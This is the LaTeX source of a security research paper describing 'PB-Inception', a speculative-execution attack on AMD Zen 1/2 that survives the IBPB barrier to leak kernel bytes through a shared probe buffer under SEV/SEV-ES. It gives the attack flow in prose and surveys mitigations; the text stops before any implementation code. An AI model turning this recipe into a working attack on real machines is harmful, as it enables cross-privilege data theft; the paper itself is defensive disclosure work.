\documentclass[11pt,a4paper]{article}
\usepackage[margin=3cm]{geometry}
\usepackage[T1]{fontenc}
\usepackage{lmodern}
\usepackage{microtype}
\usepackage{pdflscape}   % rotates the *page* in the PDF viewer
\usepackage{ragged2e}    % for \RaggedRight with proper hyphenation
\usepackage{hyperref}
% order matters: hyperref near the end)
\usepackage{booktabs,tabularx,array}
% multipage tables + landscape support
\usepackage{longtable}
% wrapping column helpers
\newcolumntype{Y}{>{\RaggedRight\arraybackslash}X} % keep for other tabularx tables
\newcolumntype{P}[1]{>{\RaggedRight\arraybackslash}p{#1}} % ragged-right p{} with wrapping
\setlength{\LTpre}{0pt}
\setlength{\LTpost}{0pt}
\usepackage{booktabs}
\usepackage{xcolor}
\usepackage{listings}
\usepackage{amsmath}
% Wrapping column for tabularx (proper hyphenation)
\newcolumntype{Y}{>{\RaggedRight\arraybackslash}X}

\usepackage{graphicx}
\lstset{
    basicstyle=\ttfamily\small,
    columns=fullflexible,
    keepspaces=true,
    frame=single,
    breaklines=true,
    showstringspaces=false,
    tabsize=4,
    language={[x86masm]Assembler},
    captionpos=b
}

% Tell listings what NASM looks like
\lstdefinelanguage{nasm}{
  keywords      = {section,global,call,ret,loop,align},
  morekeywords  = {mov,lea,push,shl,int3},   % =\lstkeywordstyle
  ndkeywords    = {rax,rcx,rdi,rip,al},      % registers, =\lstndkeywordstyle
  comment       = [l]{;},                    % ; starts a comment
  sensitive     = true
}

% Define a style for bash listings
\lstdefinestyle{bash-nonitalic}{
  language=bash,
  basicstyle=\ttfamily\small,
  commentstyle=\ttfamily\color{gray},  % <- not italic
  keywordstyle=\color{blue},
  showstringspaces=false,
  breaklines=true
}

% Global style: tweak as you wish
\lstset{
  language         = nasm,
  basicstyle       = \ttfamily\footnotesize,
  keywordstyle     = \color{blue!70!black}\bfseries,
  ndkeywordstyle   = \color{teal!70!black},
  commentstyle     = \color{gray}\itshape,
  stringstyle      = \color{orange!80!black},
  numbers          = left,
  numberstyle      = \tiny\color{gray},
  frame            = tb,          % top+bottom rule
  backgroundcolor  = \color{black!2},
  columns          = fullflexible,
  tabsize          = 4,
}

\title{A practical PB Inception Attack and Implications for Confidential Computing}
\author{Kaya Ercihan, Jonathan Müller}
\date{23.12.2025}

\begin{document}
\bibliographystyle{IEEEtranS}  % IEEE, sorted
\maketitle

% ##############################################################################################
% 
%   Structure of documentation
% 
% ##############################################################################################
%\section{Intoduction}
%\section{Related Work}
%\subsection{Contribution} %
%\section{Methodology}
%\section{Experiments}
%\section{Results and Discussion}
%\section{Future Work}
%\section{Conclusion}
%\section{Appendix}

\section*{Abstract}
We present \emph{PB-Inception}, a post–Indirect Branch Predictor Barrier (IBPB) speculative-execution primitive on AMD Zen~1(+)/Zen~2 processors. Contrary to the intended semantics of IBPB, we show that return-target predictions mistrained immediately before the barrier can persist across it and transiently redirect the first \texttt{ret} on kernel entry to an attacker-chosen gadget. We design a constructive, auditable proof-of-concept that (i) performs training entirely in transient execution using a backward-mispredicted conditional branch and a cascade of aliasing \texttt{call}s to bias return prediction, (ii) crosses a user{\textrightarrow}kernel boundary that executes \texttt{entry\_ibpb}, and (iii) speculatively lands in a minimal kernel data-cache gadget that encodes one secret byte into a shared (\emph{C}-bit{=}0) 1\,MiB probe buffer. We further place this primitive in a Confidential Computing light setting (SEV, SEV-ES), clarifying that protection of data at rest/in transit does not preclude in-core transient effects. While we defer on-hardware measurements, the artifact provides A/B toggles (mitigations, aliasing pressure, gadget presence, microarchitecture) to falsify causality. The security implication is clear: on Zen~1/2, IBPB-on-entry alone is insufficient; practical defenses must sanitize return prediction on privilege transitions (e.g. RSB stuffing or untrained returns) or remove early \texttt{ret} sites along the entry path.

\section{Introduction}

\paragraph{Motivation}
Confidential Computing (CC) aims to protect data \emph{in use} by executing workloads inside hardware-enforced isolated environments. While prior practice largely ensured confidentiality only \emph{at rest} or \emph{in transit}, CC brings protection into the CPU core, where data must be processed in cleartext. This shift raises a central question for microarchitectural security: to what extent do in-core transient effects, particularly those induced by speculative execution, interact with CC guarantees in deployed systems?

\paragraph{Confidential Computing on AMD (SEV, SEV-ES)}
On AMD platforms, Secure Encrypted Virtualization (SEV) encrypts guest physical memory using per-VM keys managed by the AMD Secure Processor (ASP). Decryption occurs on-the-fly inside the CPU pipeline and memory controller, the ASP manages keys and attestation state but does not perform data decryption itself. SEV-ES extends the protection boundary to CPU state (e.g. general-purpose registers during VM exits), and SEV-SNP would further add integrity and replay protection for guest memory and metadata. In all cases, memory remains encrypted outside the core and is decrypted only for the intended VM. For the Zen~1/Zen~2 systems we target, \textbf{only SEV/SEV‑ES are available}. Whether a given page is encrypted is indicated by the SME \emph{C-bit}. Importantly, none of these mechanisms change the fact that transient execution may occur on decrypted lines in-core, nor do they, by themselves, neutralize microarchitectural side channels.

\paragraph{Speculative execution and side channels}
Speculative execution predicts future control-flow to keep wide out-of-order pipelines busy. When a prediction is wrong, architectural state is rolled back, but microarchitectural footprints (e.g. cache fills, predictor state) may remain and can be observed via \emph{side channels}. A side-channel attack measures information indirectly exposed by the physical implementation, for example, execution time, cache-access patterns, power draw, or electromagnetic emanations, to infer secrets that should not be architecturally visible. Since Spectre, a broad literature has demonstrated that mistraining branch predictors (PHT/BTB/RSB and related structures) can steer transient control flow across isolation boundaries and encode secrets into observable microarchitectural state.

\paragraph{IBPB and post-barrier prediction state}
A common defense against cross-domain Spectre-BTI is the \emph{Indirect Branch Predictor Barrier} (IBPB), which software may execute on privilege or context transitions (e.g., on user$\rightarrow$kernel entry). The intended semantics are to sever cross-domain predictor influence. However, the efficacy of IBPB depends on microcode details and predictor composition. In particular, on AMD Zen~1(+)/Zen~2, return-target predictions produced just \emph{before} the barrier can persist \emph{across} IBPB and influence the first \texttt{ret} executed afterwards. This creates a narrow but reliable post-IBPB speculation window in which the first return on entry can be transiently redirected to an attacker-chosen gadget, unless software additionally sanitizes return prediction state (e.g. RSB stuffing or untrained returns on entry).

\paragraph{This work: PB-Inception}
We study and instantiate a post-IBPB speculative-execution primitive we term \emph{PB-Inception} on AMD Zen~1(+)/Zen~2. Our constructive pathway trains return prediction immediately before a user$\rightarrow$kernel transition that executes IBPB-on-entry and then leverages the first post-IBPB \texttt{ret} in the kernel entry path to speculatively jump into a minimal data-cache gadget. We further place the primitive in a Confidential Computing light setting (SEV, SEV-ES)\emph{without} violating the CC threat model: the gadget encodes one secret byte per entry into a deliberately shared, unencrypted buffer (\emph{C}-bit$=0$) that a host or helper can observe via \texttt{Flush+Reload}, while all protected data and architectural state remain covered by SEV and SEV-ES. This separation clarifies what CC light defends (confidentiality outside the core) and what it does not (in-core transient effects).

\paragraph{Scope and evidence}
Our artifact is designed to be auditable and falsifiable. It performs training entirely in transient execution, targets an early \texttt{ret} after \texttt{entry\_ibpb}, and provides A/B toggles (mitigations, aliasing pressure, gadget presence, microarchitecture) to isolate causality and guard against confounders. While we defer on-hardware measurements, the predicted observables (single-page cache hits at offsets proportional to the leaked byte and elevated branch-miss telemetry under active runs) follow directly from the code paths and microarchitectural mechanisms we exercise.

\paragraph{Contributions (summary)}
In brief, we (i) systematize a post-IBPB return-hijack primitive on Zen~1/2; (ii) provide a constructive, reproducible PoC that trains in transient execution and hijacks the first post-IBPB return; (iii) show how to integrate the primitive with SEV and SEV-ES using a CC-compliant probe channel; and (iv) analyze where Linux entry paths and mitigation profiles defeat or permit the primitive. The detailed list appears in~\S\ref{sec:contribution}, with methodology in~\S\ref{sec:methodology} and a discussion of implications in~\S\ref{sec:results}.

% Related work some technical background
% Available as an open source github project
\section{Contribution}
\label{sec:contribution}

This work systematizes and instantiates a \emph{post‑IBPB} speculative execution primitive on AMD Zen~1(+)/Zen~2 that we term \textbf{PB‑Inception}: return‑target predictions, mistrained immediately \emph{before} an IBPB, persist \emph{across} the barrier and steer the first \texttt{ret} on kernel entry into an attacker‑chosen gadget. We then place this primitive in a Confidential Computing light (CC light) setting (SEV, SEV-ES), exfiltrating bytes into an intentionally shared, unencrypted buffer (\(C\)-bit=0) without violating the CC threat model. Concretely, our contributions are:

\begin{enumerate}
  \item \textbf{From INCEPTION to PB‑Inception, across the IBPB boundary.}
  We show how return prediction poisoning performed just prior to an IBPB can survive the barrier on Zen~1/2 and transiently redirect the first post‑IBPB \texttt{ret} to a kernel DC gadget. This connects and extends prior return‑centric work (SpectreRSB, ret2spec, RETbleed, and INCEPTION/SRSO) by focusing on the \emph{post‑barrier} window, where software relies on IBPB to sever cross‑domain predictor influence \cite{koruyeh2018spectrersb,maisuradze2018ret2spec,wikner2022retbleed,trujillo2023inception,linux_srso_doc,wikner2025breaking}. On Zen~1/2, the resulting PB‑Inception path remains viable unless the entry path sanitizes return prediction state (e.g. RSB stuffing) \cite{linux_rsb_doc,wikner2025breaking}.

  \item \textbf{A constructive, auditable PoC design.}
  We provide a self‑contained harness that: (i) \emph{trains in transient execution} (TTE) using a backward‑mispredicted \texttt{Jcc} to open a long speculative window; (ii) emits a cascade of 64 speculative \texttt{call}s whose \emph{return addresses} are deliberately chosen to alias a kernel gadget; (iii) crosses the user\(\rightarrow\)kernel boundary that executes \texttt{entry\_ibpb}; and (iv) speculatively lands in a minimal kernel DC gadget that loads one byte and encodes it at offset \(\texttt{val} \ll 12\) into a 1\,MiB probe buffer. None of the training calls retire architecturally; they only perturb return prediction state. The artifact is designed to be falsifiable via A/B toggles (mitigations, aliasing pressure, gadget presence, microarchitecture), aligning with best practice for Spectre‑style evaluation \cite{kocher2018spectre,trujillo2023inception,wikner2025breaking,linux_srso_doc,linux_rsb_doc}.

  \item \textbf{Confidential Computing instantiation without breaking the CC model.}
  We demonstrate how the PB‑Inception primitive composes with SEV, SEV-ES: secrets remain encrypted at rest/in transit, yet transient execution still occurs on decrypted lines in‑core. By writing the covert‑channel signal to a shared (\(C\)-bit=0) buffer that the host can observe, we separate confidentiality at rest from in‑core speculation side‑effects, clarifying what CC defends (and what it does not) \cite{linux_srso_doc}. This provides a crisp threat translation from “classic” Spectre to CC deployments.

  \item \textbf{Mechanistic mapping of Linux entry and mitigations on Zen~1/2.}
  We identify a practical early \texttt{ret} site after \texttt{entry\_ibpb} on the Linux entry path and show how its speculative target can be steered by pre‑barrier training. We spell out conditions under which software mitigations defeat the attack (e.g. RSB stuffing/untrained returns or removal of early \texttt{ret} sites), and when they do not (IBPB‑on‑entry alone on Zen~1/2) \cite{linux_srso_doc,linux_rsb_doc,wikner2025breaking}. Our analysis complements vendor guidance on early‑frontend speculation/BTC and post‑barrier return prediction on AMD  \cite{amd2022btc,amd_software_spec,intel_pbrsb,intel_rrsba}.

  \item \textbf{Reproducibility blueprint in the absence of measurements.}
  While we defer on‑hardware measurements, we contribute a complete, auditable pathway-kernel gadget, user‑space training harness, trampoline builder, CC plumbing, and A/B validation matrix, so that third parties can independently reproduce, refute, or extend our claims on suitable Zen~1/2 systems. The harness exposes clear, measurable observables (one‑hot page hits at \(\texttt{val} \ll 12\)) and includes negative controls to guard against confounders \cite{linux_srso_doc,linux_rsb_doc,wikner2025breaking}.
\end{enumerate}

\paragraph{Novelty relative to prior art.}
RETbleed steers returns via BTB collisions across privilege domains. INCEPTION/SRSO injects return predictions to create long transient windows \cite{wikner2022retbleed,trujillo2023inception}. \emph{PB‑Inception} isolates a different seam: the \emph{post‑barrier} region where IBPB was intended to neutralize cross‑domain influence. We show, in a constructive setting, that on Zen~1/2 the return predictor can retain pre‑barrier state across IBPB and thus misdirect the first post‑IBPB \texttt{ret}, a behavior anticipated by recent post‑barrier analyses and kernel guidance, but here turned into an end‑to‑end exploitation recipe with a CC‑aware channel \cite{wikner2025breaking,linux_srso_doc,linux_rsb_doc,intel_pbrsb,intel_rrsba}.

\paragraph{Security takeaway.}
For Zen~1/2, \emph{IBPB‑on‑entry alone is not sufficient}. Practical defenses require sanitizing return prediction on privilege transitions (e.g. RSB stuffing/untrained returns) or removing susceptible early returns along the entry path, when available, microcode with stronger post‑barrier semantics should be paired with these software measures \cite{linux_srso_doc,linux_rsb_doc,wikner2025breaking}.

\section{Related Work}
\label{sec:related}

\paragraph{Speculative execution and Spectre lineage.} Modern out-of-order processors predict control flow to keep pipelines full, enabling transient execution along mispredicted paths. The Spectre family formalized practical exploitation of such mispredictions and showed cross-domain leaks via microarchitectural side channels \cite{kocher2018spectre}. Since then, a broad line of work has mapped and exploited branch-prediction structures (PHT/BTB/RSB) across privilege and context boundaries.

\paragraph{RSB- and return-centric attacks.}
Early RSB-focused works (SpectreRSB and ret2spec) showed how return-target prediction can be subverted even without direct control over indirect branches \cite{koruyeh2018spectrersb,maisuradze2018ret2spec}. RETbleed systematized cross-privilege return hijacking and demonstrated end-to-end leaks on AMD and Intel by steering returns via BTB collisions; it also evaluated practical kernel mitigations (e.g. \texttt{jmp2ret}, RSB clearing/stuffing, and retpoline interactions) \cite{wikner2022retbleed}.

\paragraph{AMD Zen microarchitectures, BTC, and early speculation.}
On AMD Zen, Branch Type Confusion (BTC) and PHANTOM speculation reveal that prediction can occur very early in the frontend, including on non-branch instructions, increasing attack surface and interacting with return prediction \cite{amd2022btc,wikner2023phantom}. AMD introduced controls like \texttt{SuppressBPOnNonBr} and guidance for managing speculation across Zen generations \cite{amd2022btc,amd_software_spec}.

\paragraph{INCEPTION / SRSO.}
\emph{INCEPTION} (a.k.a.\ Speculative Return Stack Overflow, SRSO, CVE-2023-20569) shows that attackers can inject return predictions, creating long transient windows to disclose kernel data on all AMD Zen generations, despite deployed defenses \cite{trujillo2023inception,nvd_cve_2023_20569,amd_sb7005,linux_srso_doc}. Vendor whitepapers and kernel documentation discuss mitigations (IBPB-on-entry, RSB stuffing, untrained returns), trade-offs, and microcode dependencies on different Zen generations \cite{amd_srso_whitepaper,linux_srso_doc}.

\paragraph{IBPB, post-barrier speculation, and PB-Inception.}
A central defense for cross-context Spectre-BTI is the Indirect Branch Predictor Barrier (IBPB). However, the correctness of IBPB relies on microcode semantics and how software applies it. Recent analysis shows that IBPB does not fully flush all alternate return predictors. For Intel Golden/Raptor Cove, PB-RRSBA enables stale IP-based return predictions post-IBPB; for AMD Zen1(+)/Zen2, IBPB-on-entry still leaves the return predictor retaining poisoned entries learned just before the barrier, enabling PB-Inception to leak arbitrary kernel memory \cite{wikner2025breaking}. The work proposes disabling exploitable RRSBA predictions via a chicken bit on affected Intel CPUs, and hardening Linux on AMD by stuffing the RSB when using IBPB-on-entry to prevent post-barrier return hijacks \cite{wikner2025breaking}. These findings connect to earlier vendor advisories on post-barrier return prediction (PBRSB) and RRSBA enumeration/mitigation \cite{intel_pbrsb,intel_rrsba}.

\paragraph{System response and current practice.}
Linux now documents SRSO/RSB mitigations (IBPB strategies, untrained returns, RSB stuffing and conditions for applying them) and their performance-security tradeoffs. The effectiveness varies by microarchitecture and available microcode \cite{linux_srso_doc,linux_rsb_doc}. On AMD Zen3/4, IBPB may flush IP-based predictors to mitigate INCEPTION-like behaviors, while Zen1/2 require software RSB stuffing on entry when IBPB is used \cite{wikner2025breaking,amd_srso_whitepaper}.

\paragraph{Takeaway.}
For AMD Zen, the return predictor remains a privileged choke point: pre-barrier mistraining plus post-barrier retention under specific IBPB configurations yields PB-Inception-style cross-privilege leaks. Comprehensive defenses require both correct barrier semantics in microcode \emph{and} software-side RSB sanitization at the right points in the control-flow transitions \cite{wikner2025breaking,trujillo2023inception,linux_srso_doc}.

\begin{landscape}
\begin{table}[t] \centering \vspace*{-1.2\baselineskip}\end{table} % keep float spacing happy

\begin{small}
\setlength{\tabcolsep}{4pt}
\renewcommand{\arraystretch}{1.15}

\begin{longtable}{@{}%
  P{0.16\linewidth} % Attack / Targeted structure (Post-IBPB?)
  P{0.12\linewidth} % Attacker model / boundary
  P{0.13\linewidth} % Preconditions
  P{0.16\linewidth} % Effective mitigations
  P{0.15\linewidth} % OS/µcode knobs
  P{0.08\linewidth} % Evidence / PoC
  P{0.08\linewidth} % Side-channel
  P{0.12\linewidth} % CC impact
@{}}
\caption{Related work overview by predictor target, boundary, preconditions, effective mitigations, OS/\,$\mu$code knobs, evidence, side channel, and CC impact. “Post‑IBPB?” indicates whether the path relies on prediction state persisting across an IBPB boundary.}
\label{tab:related-work-overview}\\

\toprule
\textbf{Attack / Targeted structure (Post‑IBPB?)} &
\textbf{Attacker model / boundary} &
\textbf{Preconditions} &
\textbf{Effective mitigations (what actually stops it)} &
\textbf{OS/\,$\mu$code knobs (Linux / CPUID)} &
\textbf{Evidence / PoC} &
\textbf{Side‑channel} &
\textbf{ CC impact (SEV / ES)} \\
\midrule
\endfirsthead

\multicolumn{8}{l}{\small\itshape Table \thetable\ (continued)}\\
\toprule
\textbf{Attack / Targeted structure (Post‑IBPB?)} &
\textbf{Attacker model / boundary} &
\textbf{Preconditions} &
\textbf{Effective mitigations (what actually stops it)} &
\textbf{OS/\,$\mu$code knobs (Linux / CPUID)} &
\textbf{Evidence / PoC} &
\textbf{Side‑channel} &
\textbf{ CC impact (SEV / ES)} \\
\midrule
\endhead

\midrule
\multicolumn{8}{r}{\small\itshape Continued on next page}
\endfoot

\bottomrule
\endlastfoot

\textbf{Spectre v1 (PHT) \cite{kocher2018spectre} (No)} &
Same‑process; cross‑sandbox/JIT; sometimes cross‑process &
Bounds‑check bypass on mispredicted conditional; timer/eviction primitive &
Bounds‑check hardening; compiler SLH; masking; LFENCE/speculation barriers (IBPB/RSB not primary) &
Compiler flags (SLH); kernel hardening hooks; some trees expose \texttt{nospectre\_v1} &
Yes; many PoCs since 2018 &
Flush+Reload; Prime+Probe (varies) &
Intra‑VM leakage; host observation requires shared C‑bit{=}0 mapping \\

\textbf{Spectre v2 (BTB/indirect) \cite{kocher2018spectre} (No / IBPB mitigates)} &
Cross‑process; user$\rightarrow$kernel; cross‑VM variants &
Indirect‑branch poisoning; suitable training; timer &
IBRS, IBPB, STIBP; retpoline (RSB stuffing helps returns only) &
\texttt{spectre\_v2=*}, \texttt{spectre\_v2\_user=
prctl,ibpb}; CPUID: \texttt{ibrs}, \texttt{ibpb}, \texttt{stibp} &
Yes; widely reproduced &
Flush+Reload; Prime+Probe &
Same as above; host timing needs shared C‑bit{=}0 page \\

\textbf{SpectreRSB (RSB) \cite{koruyeh2018spectrersb} (No)} &
User$\rightarrow$kernel; cross‑thread/process on same core &
RSB underflow/overfill; entry without RSB sanitization; early \texttt{ret} reachable &
RSB stuffing on entry; untrained‑return (Safe‑RET) thunks on entry &
\texttt{spec\_rstack\_overflow=
safe-ret} (Linux); RSB clear/stuff on switch &
Yes; public PoCs &
Flush+Reload (typical) &
Works intra‑guest; host view requires shared C‑bit{=}0 \\

\textbf{ret2spec (RSB) \cite{maisuradze2018ret2spec} (No)} &
Same‑process and cross‑thread; user$\rightarrow$kernel variants &
RSB pollution; suitable return window; timer &
RSB stuffing; Safe‑RET thunks; remove early returns on entry path &
\texttt{spec\_rstack\_overflow=
safe-ret} (Linux) &
Yes; PoC in paper &
Flush+Reload &
As above (shared C‑bit{=}0 for host‑visible channel) \\

\textbf{INCEPTION / SRSO / TTE \cite{trujillo2023inception} (Yes)} &
User$\rightarrow$kernel; AMD Zen gens &
Pre‑entry return‑prediction poisoning; early \texttt{ret} after entry; IBPB‑only; timer &
Untrained‑return / Safe‑RET (AMD \textit{JMP2RET}); entry sanitization; IBPB alone insufficient on Zen 1/2 &
\texttt{spec\_rstack\_overflow=
safe-ret}; vendor microcode; CPUID enumerates SRSO mitigations (where present) &
Yes; PoCs and vendor guidance &
Flush+Reload (typical) &
CC‑light: still leaks in‑core; host needs shared C‑bit{=}0 page \\

\textbf{SRSO mitigation (Linux/vendor) \cite{linux_srso_doc,amd_srso_whitepaper} (Mitigation)} &
N/A &
N/A &
Safe‑RET / untrained‑return thunks at entry; optional RSB stuffing; policy on IBPB use &
\texttt{spec\_rstack\_overflow=
\{safe-ret,ibpb,off\}}, \texttt{spectre\_v2\_user=prctl,ibpb}; CPUID per vendor &
N/A (guidance) &
N/A &
Prevents return‑hijack paths irrespective of CC \\

\textbf{Generic mitigations (survey) \cite{kocher2018spectre,linux_srso_doc,linux_rsb_doc} (By variant)} &
V1: same‑proc/cross‑sandbox; V2: cross‑proc/user$\rightarrow$kernel; Meltdown separate &
V1: bounds‑check bypass; V2: indirect‑branch poisoning &
V1: hardening, SLH, LFENCE; Meltdown: KPTI; V2: IBRS/IBPB/Retpoline (RSB only for returns) &
Linux knobs above; compiler options; microcode (IBRS/IBPB) &
N/A (survey) &
Various (F+R, P+P, …) &
CC‑light unaffected architecturally; shared mappings govern host visibility \\

\end{longtable}
\end{small}
\end{landscape}

\section{Methodology}
\label{sec:methodology}

\paragraph{Goal.}
Demonstrate a post-IBPB Spectre primitive on AMD Family Zen~1(+)/2 whereby return-target predictions, mistrained before an IBPB, survive the barrier and steer the first ret in the kernel entry path to a chosen leak gadget (PB-Inception). We further instantiate the primitive in a Confidential Computing light (CC light) setting (AMD SEV, SEV-ES) by exfiltrating secrets into an unencrypted shared buffer (C-bit=0) observable by the host.

\paragraph{Threat model.}
An unprivileged attacker process (inside a Linux guest) aims to infer kernel-resident data across a user$\rightarrow$kernel boundary that issues IBPB-on-entry. The attacker controls userland code and can load a benign kernel module in the guest for experimental instrumentation. The host is passive and only performs measurements on a shared buffer. No architectural faults or privilege escalations are used.

\paragraph{Preconditions.}
(i) AMD Family~17h (Zen~1/2) where return-target predictions persist across IBPB; (ii) the Linux entry path executes entry\_ibpb (wrmsr to IBPB) and then performs an early ret; (iii) a kernel leak gadget reachable under speculative control, producing a cache-disclosed signal; (iv) CC flags present (SEV/SEV-ES) and availability of a guest page with C-bit cleared to act as a host-observable probe.%

The flags can under Linux be found with the command \texttt{lscpu} by checking the advertised flags "SEV", "SEV-ES" in the following way:
\begin{lstlisting}[language=bash]
Architecture:        x86_64
CPU op-mode(s):      32-bit, 64-bit
Byte Order:          Little Endian
Address sizes:       48 bits physical, 48 bits virtual
CPU(s):              8
On-line CPU(s) list: 0-7
Thread(s) per core:  2
Core(s) per socket:  4
Socket(s):           1
NUMA node(s):        1
Vendor ID:           AuthenticAMD
CPU family:          23
Model:               49
Model name:          AMD EPYC 7R32 (Rome)
Stepping:            0
CPU MHz:             3049.994
BogoMIPS:            6099.98
Virtualization:      AMD-V
L1d cache:           32K
L1i cache:           32K
L2 cache:            512K
L3 cache:            16M

Flags:
fpu vme de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov 
pat pse36 clflush mmx fxsr sse sse2 ht syscall nx mmxext fxsr_opt 
pdpe1gb rdtscp lm constant_tsc rep_good nopl nonstop_tsc cpuid 
extd_apicid tsc_known_freq pni pclmulqdq ssse3 fma cx16 pcid 
sse4_1 sse4_2 x2apic movbe popcnt aes xsave avx f16c rdrand 
hypervisor lahf_lm cmp_legacy cr8_legacy abm sse4a misalignsse 
3dnowprefetch osvw topoext invpcid_single ssbd ibrs ibpb stibp 
vmmcall fsgsbase tsc_adjust bmi1 avx2 smep bmi2 erms invpcid 
rdseed adx smap clflushopt clwb sha_ni xsaveopt xsaves xgetbv1 
clzero xsaveerptr arat npt nrip_save umip sev sev-es
\end{lstlisting}

\subsubsection{Overview of the exploit flow}
\noindent\textbf{Attack flow.}
Figure~\ref{fig:pb-inception-flow} shows the end-to-end PB-Inception workflow used in our artifact.
(1) In guest user space, the attacker performs pre-IBPB training of the return predictor (Training in Transient Execution, TTE) using aliasing trampolines.
(2) A system call crosses the IBPB boundary into the kernel.
(3) Immediately after entry, an early \texttt{ret} in the entry/leak gadget is steered by the poisoned return predictor, triggering a transient control transfer.
(4) The transient gadget reads a victim byte and encodes it via a data-dependent access to a 1\,MiB shared probe with C-bit~=~0 at \texttt{probe[(secret << 12)]}.
(5) The host/observer recovers the byte using Flush+Reload over 256 pages.
As an A/B control, \emph{IBPB-only} leaves the signal intact, whereas \emph{Safe-RET} (UNTRAIN\_RET/JMP2RET) removes it.

\begin{figure}[htbp]
  \centering
  
\includegraphics[width=\linewidth]{pdfs/attackFlowExploit.pdf}%
  \caption[PB-Inception: attack flow and measurement path]%
  {\textbf{PB-Inception: attack flow and measurement path.}
   Left: pre-IBPB TTE training and the syscall that crosses the IBPB boundary.
   Middle: kernel entry with IBPB, early \texttt{ret} in the entry/leak gadget, transient read of victim data (red data edge), and data-dependent encoding into a 1\,MiB shared probe (C-bit~=~0) at \texttt{probe[(secret << 12)]}.
   Right: host-side Flush+Reload to reconstruct the byte.
   Gray edges denote control/trigger flow (including the encoding access), the red edge denotes the data flow of the secret.
   \emph{IBPB-only} $\Rightarrow$ leak; \emph{Safe-RET/UNTRAIN\_RET/JMP2RET} $\Rightarrow$ no leak.}
  \label{fig:pb-inception-flow}
\end{figure}




PB-Inception proceeds in three phases:

\begin{enumerate}
  \item \textbf{Pre-IBPB transient training (user mode).} We execute a transient-only call cascade to poison return predictions with addresses that alias a chosen kernel gadget. The cascade is \emph{Training-in-Transient-Execution} (TTE): a mispredicted backward \texttt{Jcc} keeps the predicate unresolved while a sequence of 64 \texttt{call}-sites (\texttt{TRAMP\_COUNT}) issues \emph{speculative} \texttt{CALL}s. None of these calls retire architecturally, they only push return addresses into the return predictor. A deliberately ``slow'' load on the branch predicate (mapped cold memory) widens the speculation window.
  \item \textbf{Crossing the IBPB boundary.} We invoke a system call (getpid) so the kernel executes \texttt{entry\_ibpb} early in the entry path (wrmsr to IBPB) and then performs the first post-IBPB \texttt{ret}. Because return-target predictions persist across IBPB on Zen1/2, that \texttt{ret} speculatively follows our poisoned predictions.
  \item \textbf{Speculative leak and recovery.} The mispredicted return lands in a kernel \emph{data-cache (DC) leak gadget} that loads one byte from a chosen kernel virtual address and encodes it as a cache footprint at offset \texttt{val\,$\ll$\,12} in a 1\,MiB probe buffer. The probe buffer is mapped in the guest but backed by guest-physical memory with C-bit=0 and \emph{also} ioremapped cached in the kernel, so the host can recover the byte via Flush+Reload.
\end{enumerate}

\subsubsection{Implementation details (as used in our harness)}
\label{sec:method:pb-inception:impl}

